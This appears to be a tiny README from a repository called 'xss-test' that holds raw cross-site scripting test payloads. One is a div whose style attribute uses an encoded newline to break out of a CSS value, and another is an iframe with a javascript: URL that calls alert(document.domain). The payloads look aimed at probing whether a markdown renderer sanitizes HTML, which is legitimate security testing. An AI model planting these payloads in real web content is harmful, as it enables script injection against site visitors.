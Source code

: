 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

HOLA


```

<!--  ///// -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
